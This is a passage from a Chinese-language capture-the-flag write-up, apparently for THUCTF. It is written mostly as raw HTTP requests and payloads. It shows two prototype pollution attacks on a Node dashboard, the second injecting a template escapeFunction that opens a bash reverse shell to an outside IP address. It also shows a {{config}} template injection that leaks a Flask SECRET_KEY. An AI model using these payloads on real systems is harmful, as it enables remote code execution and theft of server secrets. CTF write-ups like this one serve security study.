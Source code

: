 原型链污染拿flag

```http
POST /dashboard HTTP/1.1
Host: nc.thuctf.redbud.info:30931
Content-Length: 44
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Content-Type: application/json
Accept: */* 
Origin: http://nc.thuctf.redbud.info:30931
Referer: http://nc.thuctf.redbud.info:30931/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=91020cc5b9def047e1448020852cd7ca; connect.sid=s%3AGon1qVLX40EOW2wjF_o_TDB3UqkAf67c.KmjxjVSybzFNyh%2BScJ35M0wUGTALpYimkKGm4b4JttM
Connection: close

{"a": 1, "__proto__": {"i_can_get_flag": 1}}
```

### 结、枷锁 - flag2

继续污染

```http
POST /dashboard HTTP/1.1
Host: nc.thuctf.redbud.info:31949
Content-Length: 189
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://nc.thuctf.redbud.info:31949
Referer: http://nc.thuctf.redbud.info:31949/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: mysession=MTY2NDUyMzg3OXxOd3dBTkV0VlFsZEVRa1pSVkZkVk5WZEhWelJVVUU1S05sZGFWVmxXUnpOUlVrRldWVVpXTmxaSVZqWlhOVTQwVDFaRlVqVTNXVkU9fJsjvVSqQT9i4K0NqwvIxnGR2KtuTycdQ8AHltl1umzb; connect.sid=s%3Aoj4tkOIBFsni3fMhz4hwh7uZq45pQwQB.i2rZ1fDuEQMDAvwvTvcB4tAbKVJNDY2MQ6NGF68Lu8U
Connection: close

{"a": 1, "__proto__": {"client":1,"escapeFunction": "function(){};process.mainModule.require('child_process').execSync('bash -c \"/bin/bash -i >& /dev/tcp/183.172.204.230/44444 0>&1\"');"}}
```

然后请求`/dashboard`拿到flag2

### PyChall - flag1

本地搭server, 输入 `{{config}}`, 利用解析漏洞拿到 `SECRET_KEY`

```js
{'ENV': 'production',
 'DEBUG': False,
 'TESTING': False,
 'PROPAGATE_EXCEPTIONS': None,
 'SECRET_KEY': '74a832d6-c6ef-485c-a09c-3f1c38221674',
 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31),
 'USE_X_SENDFILE': False,
 'SERVER_NAME': None,
 'APPLICATION_ROOT': '/', 
 'SESSION_COOKIE_NAME': 'session',
 'SESSION_COOKIE_DOMAIN': False,
 'SESSION_COOKIE_PATH': None,
 'SESSION_COOKIE_HTTPONLY': True,
 'SESSION_COOKIE_SECURE': False,
```